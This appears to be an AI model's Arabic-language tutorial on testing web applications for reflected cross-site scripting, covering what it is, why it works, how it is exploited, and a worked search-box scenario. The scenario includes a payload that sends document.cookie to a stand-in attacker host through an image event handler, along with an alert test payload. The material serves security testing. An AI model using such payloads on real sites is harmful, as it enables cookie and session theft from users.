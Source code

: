 بناءً على طلبك لشرح **اختبار ثغرة XSS المنعكس (Test for Reflected XSS)** باستخدام نفس طريقة الشرح المقدمة (التي تتضمن أقسامًا مثل "ما المقصود؟"، "لماذا يعمل؟"، "كيف يتم الاستغلال؟"، والخطوات العملية)، سأقدم شرحًا مفصلاً ومنظمًا لهذه العملية في اختبار ثغرات Cross-Site Scripting (XSS). سأغطي جميع المحاولات الممكنة لاختبار ثغرة XSS المنعكس، مع التركيز على إدخال شيفرات JavaScript في نقاط إدخال (مثل معلمات URL، حقول النماذج، أو رؤوس HTTP) التي تُعرض مباشرة في استجابة الصفحة دون تنظيف كافٍ. سيتم تقسيم المحاولات إلى فئات (مثل حقن وسوم HTML، استخدام أحداث JavaScript، وتجاوز الفلاتر). سيتم تضمين المحتوى في علامة `<xaiArtifact>` كما هو مطلوب، مع معرف جديد لأن هذا طلب مستقل يركز على خطوة محددة. سأحافظ على الشرح باللغة العربية بأسلوب واضح ومنظم، متجنبًا تنسيق Markdown خارج العلامة بناءً على طلبك السابق.

---

## فهم الخطوة: اختبار ثغرة XSS المنعكس (Test for Reflected XSS)

### ما المقصود؟
اختبار ثغرة **XSS المنعكس (Reflected XSS)** هو عملية اختبار أمان لتحديد ما إذا كان التطبيق الإلكتروني عرضة لثغرة Cross-Site Scripting من النوع المنعكس، حيث يتم إدخال شيفرة JavaScript ضارة في نقطة إدخال (مثل معلمة URL، حقل نموذج، أو رأس HTTP) وتُعرض مباشرة في استجابة الصفحة دون تنظيف أو تصفية كافية. تُسمى "منعكسة" لأن الشيفرة الضارة تُرسل من المستخدم (عبر طلب HTTP) وتُنعكس (تُعرض) في استجابة الخادم. الهدف هو تنفيذ شيفرة JavaScript في متصفح الضحية لأغراض مثل سرقة البيانات، التلاعب بالصفحة، أو إعادة التوجيه.

### لماذا يعمل؟
- **عدم تنظيف الإدخال**: التطبيقات التي لا تُنظف أو تُصفي الإدخالات (مثل معلمات URL أو حقول النماذج) قد تُعرض الشيفرة الضارة مباشرة في HTML، مما يتيح تنفيذ JavaScript.
- **إدراج الإدخال في DOM**: إذا أُدرجت الإدخالات في استجابة HTML (مثل داخل `<div>`، `<input>`، أو JavaScript)، يمكن للمهاجم استخدام وسوم أو أحداث لتنفيذ شيفرة.
- **دعم المتصفحات لـ JavaScript**: المتصفحات تُنفذ JavaScript تلقائيًا عند إدراجه في وسوم مثل `<script>`، أحداث مثل `onload`، أو بروتوكولات مثل `javascript:`.
- **تجاوز الفلاتر البسيطة**: الفلاتر الضعيفة قد تحظر وسومًا مثل `<script>` ولكن تسمح بأحداث (`onerror`)، روابط (`javascript:`)، أو صيغ معقدة.
- **التفاعل مع المستخدم**: يمكن للمهاجم إقناع الضحية بالنقر على رابط يحتوي على الحقنة (مثل `https://example.com/?q=<script>alert('XSS')</script>`).

### كيف يتم الاستغلال؟
- يتم إدخال شيفرة JavaScript في نقطة إدخال (مثل معلمة URL أو حقل نموذج) يتم إرسالها إلى الخادم عبر طلب HTTP (GET أو POST).
- تُصمم الحقنة لتنفيذ شيفرة عند عرض الاستجابة في المتصفح، إما تلقائيًا (مثل `<script>` أو `<img onload>`) أو عند التفاعل (مثل النقر على رابط `javascript:`).
- تُستخدم الشيفرة لتنفيذ إجراءات ضارة مثل:
  - سرقة ملفات تعريف الارتباط (`document.cookie`).
  - استخراج محتوى الصفحة (`document.body.innerHTML`).
  - إعادة توجيه المستخدم إلى موقع ضار.
  - تتبع إدخالات المستخدم (مثل تسجيل كلمات المرور).
- يتم مراقبة خادم خارجي (للبيانات المسربة) أو استجابة المتصفح لتأكيد التنفيذ:
  - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه أو إرسال بيانات إلى خادم المهاجم).
  - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، قيود CSP، أو تنظيف الإدخال.
- تُكيَّف الحقن لتجاوز الفلاتر (مثل استخدام صيغ بديلة أو تعتيم الشيفرة).

### السناريو
لنفترض أنك تختبر موقعًا إلكترونيًا يحتوي على شريط بحث يأخذ معلمة `q` من عنوان URL (مثل `https://example.com/search?q=test`). لاحظت أن قيمة `q` تُعرض مباشرة في الصفحة داخل `<div>Search results for: test</div>` دون تنظيف. حاولت إدخال `https://example.com/search?q=<script>alert('XSS')</script>` ولاحظت ظهور تنبيه عند تحميل الصفحة. تريد الآن استخدام حقنة مثل `https://example.com/search?q=<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">` لاستخراج بيانات حساسة. إذا تلقى خادمك البيانات أو نُفذت الشيفرة، فهذا يؤكد وجود ثغرة XSS منعكس.

---

